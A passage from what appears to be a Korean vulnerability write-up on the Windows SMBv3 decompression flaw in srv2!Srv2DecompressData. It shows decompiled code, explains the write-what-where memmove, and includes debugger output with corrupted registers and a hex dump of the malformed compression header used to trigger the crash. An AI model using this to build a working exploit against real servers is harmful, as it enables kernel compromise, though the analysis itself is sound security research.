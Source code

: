 ```c++
    return 0xC000090Bi64;
  }
  if ( Header.Offset )
  {
    memmove(*(Buffer + 0x18), (*(*(v1 + 0xF0) + 0x18i64) + 0x10i64), Header.Offset);
    v9 = v11;
  }
  *(Buffer + 0x24) = Header.Offset + v9;
  Srv2ReplaceReceiveBuffer(v1, Buffer);
  return 0i64;
}
```

바로 `memmove(memcpy)` 함수를 호출하는 위치에서 `Write-what-where` 조건이 성립합니다. `Buffer+0x18`에 있는 주소 값에 패킷 헤더로부터 0x10만큼 떨어진 위치의 데이터를 `Offset` 만큼 복사합니다.

이에 대한 증명은 아래와 같이 가능합니다. 임의의 큰 사이즈로 버퍼를 전달하면 아래와 같이 오버플로로 인해 잘못된 메모리 참조가 일어나며 해당 위치는 `srv2!Srv2DecompressData` 함수의 `memcpy` 부분에서 발생합니다. 이 때 레지스터 값을 확인하면 오버플로로 인해 확실히 `Dst` 버퍼가 변조되었습니다.

```
 # Child-SP          RetAddr           Call Site
00 fffff208`eb43ae68 fffff801`0d767f6d srv2!memcpy+0x2b
01 fffff208`eb43ae70 fffff801`0d76699e srv2!Srv2DecompressData+0x10d

2: kd> r
rax=0000001ff2ffffbc rbx=ffffc90192e1e150 rcx=4141414141414149
rdx=bebe87c04ed5348f rsi=0000000000000010 rdi=ffffc90190167050
rip=fffff8010d75f5eb rsp=fffff208eb43ae68 rbp=0000000000000002
 r8=0000000000000010  r9=0000000000000001 r10=ffffc9018a602290
r11=4141414141414141 r12=0000000000000000 r13=ffffc901901fbb80
r14=00000000ffffffff r15=0000000000000000
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050202
srv2!memcpy+0x2b:
fffff801`0d75f5eb 488941f8        mov     qword ptr [rcx-8],rax ds:002b:41414141`41414141=????????????????
```

다음은 `Src` 메모리에 대한 내용입니다.

```
1: kd> u fffff801`0d767f52 l6
srv2!Srv2DecompressData+0xf2:
fffff801`0d767f52 488b87f0000000  mov     rax,qword ptr [rdi+0F0h]
fffff801`0d767f59 448bc6          mov     r8d,esi
fffff801`0d767f5c 488b4b18        mov     rcx,qword ptr [rbx+18h]
fffff801`0d767f60 488b5018        mov     rdx,qword ptr [rax+18h]
fffff801`0d767f64 4883c210        add     rdx,10h
fffff801`0d767f68 e85376ffff      call    srv2!memcpy (fffff801`0d75f5c0)

1: kd> u @rip l1
srv2!Srv2DecompressData+0x100:
fffff801`0d767f60 488b5018        mov     rdx,qword ptr [rax+18h]

1: kd> db poi(@rax+18)
ffffc901`90f657d0  fc 53 4d 42 ff ff ff ff-02 00 00 00 10 00 00 00  .SMB............
ffffc901`90f657e0  bc ff ff f2 1f 00 00 00-bc ff ff f2 1f 00 00 00  ................
ffffc901`90f657f0  ff ff 3f 40 41 07 00 0f-ff 04 11 e0 70 1e 6c 0d  ..?@A.......p.l.
ffffc901`90f65800  b7 ff ff 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffc901`90f65810  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffc901`90f65820  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffc901`90f65830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffc901`90f65840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
```
